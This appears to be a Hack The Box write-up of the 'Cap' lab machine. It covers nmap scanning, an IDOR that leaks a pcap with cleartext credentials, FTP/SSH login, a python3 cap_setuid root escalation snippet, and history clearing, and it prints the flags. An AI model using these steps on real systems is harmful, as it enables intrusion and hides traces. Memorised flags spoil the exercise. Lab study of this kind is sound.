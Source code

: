 # HTB: Cap

## Engagement Overview

**Target:** Cap   
**Box IP:** 10.10.10.245  
**Local IP:** 10.10.14.16   
**Date:** 2025-07-21

---

### Objectives

- Discover and exploit an IDOR to access sensitive captures
- Extract credentials from a packet capture (pcap)
- Use leaked credentials to obtain a shell and escalate to root via Linux capabilities

---

## Service Enumeration

```bash
# Full TCP scan (condensed)
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.245
nmap -p 21,22,80 -sCV -oA scans/nmap-tcpscripts 10.10.10.245
```

**Relevant outputs / findings:**

- Port 21 – FTP (vsftpd 3.0.3) — no anonymous access
- Port 22 – SSH (OpenSSH 8.2p1)
- Port 80 – HTTP (Gunicorn, Python-based web app)
- Gunicorn dashboard and predictable `/data/<id>` endpoints indicated possible IDOR

---

## Initial Access

### IDOR Discovery & PCAP Extraction

- Accessing `/data/0` returned a packet capture (pcap) not generated by current session — classic IDOR.
- Downloaded pcap and analyzed in Wireshark to recover cleartext credentials:
  - `USER: nathan`
  - `PASS: Buck3tH4TF0RM3!`

### Foothold via FTP/SSH

```bash
ftp 10.10.10.245
# login: nathan / Buck3tH4TF0RM3!
ftp> get user.txt  # user flag retrieved: e64084b4cf1836347593df12f6a16b75
```
- SSH access confirmed using same credentials for `nathan`

---

## Privilege Escalation

### LinPEAS findings

```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

Because `python3.8` has the `cap_setuid` capability, it can be used to escalate privileges by changing UID to 0 and spawning a shell.

**Exploit (performed on target):**
```python
import os
os.setuid(0)
os.system("/bin/bash")
```

**Result:** Root shell obtained. `root.txt` captured: `f0f8a2a1d4bfdea7688e471cf3ad04a4`

---

## House Cleaning / Post-Exploitation

- Removed `linpeas.sh` and cleared command history where appropriate
- No persistent backdoors left

**Flags:**
- `user.txt`: `e64084b4cf1836347593df12f6a16b75`
- `root.txt`: `f0f8a2a1d4bfdea7688e471cf3ad04a4`

---

## Tools Utilized
- nmap, ftp, ssh, python3
- Wireshark
- LinPEAS

---

## Key Takeaways
- IDORs exposing resources like pcaps can leak highly sensitive credentials.
- Linux capabilities (caps) provide alternate privilege escalation routes beyond setuid binaries.
- Packet analysis skills (Wireshark) are critical for extracting cleartext credentials from captures.
